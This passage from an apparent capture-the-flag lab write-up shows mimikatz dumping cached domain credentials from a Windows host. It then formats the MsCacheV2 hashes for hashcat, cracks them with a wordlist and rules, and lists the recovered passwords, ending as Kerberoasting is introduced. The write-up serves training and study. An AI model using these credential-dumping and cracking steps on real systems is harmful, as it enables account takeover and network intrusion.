 The cache is much more interesting as we have two domain accounts here:

```
[[dead:babe::1001]]: PS C:\temp> .\mimikatz.exe token::elevate lsadump::cache exit

mimikatz(commandline) # lsadump::cache
Domain : COMPATIBILITY
SysKey : 6dcfa5e3811b05c0a5206da6384f406f

Local name : COMPATIBILITY ( S-1-5-21-158512341-328150952-995267585 )
Domain name : POO ( S-1-5-21-2413924783-1155145064-2969042445 )
Domain FQDN : intranet.poo

Policy subsystem is : 1.14
LSA Key(s) : 1, default {686c3d5a-8dfb-714b-4a74-6ce5e45bd0f8}
  [00] {686c3d5a-8dfb-714b-4a74-6ce5e45bd0f8} edde363d2913f57c555e9d3b2989e42d432c9fae46f8ca29572822ad3fcbc70e

* Iteration is set to default (10240)

[NL$1 - 3/22/2018 6:45:01 PM]
RID       : 00000452 (1106)
User      : POO\p00_dev
MsCacheV2 : 7afecfd48f35f666ae9f6edd53506d0c

[NL$2 - 3/22/2018 3:36:34 PM]
RID       : 00000453 (1107)
User      : POO\p00_adm
MsCacheV2 : 32c28e9a78d7c3e7d2f84cbfcabebeed

mimikatz(commandline) # exit
Bye!
```

We'll put those in a format hashcat can understand:

```
$DCC2$10240#p00_dev#7afecfd48f35f666ae9f6edd53506d0c
$DCC2$10240#p00_adm#32c28e9a78d7c3e7d2f84cbfcabebeed
```

Using hashcat, let's try all the SecLists password wordlists with a rule (it takes a while since DDC2 is a slow hash):

```
hashcat64 -a 0 -m 2100 -r rules\best64.rule mscachev2.txt passwords\*
```

Bingo! We cracked the two hashes:

 - p00_dev: Development1!
 - p00_adm: ZQ!zaq1

... but when we try p00_adm later we'll find out that it's an old password that doesn't work.

So what we'll do instead is use `invoke-kerberoast` to get the TGS ticket hashes and crack them offline:
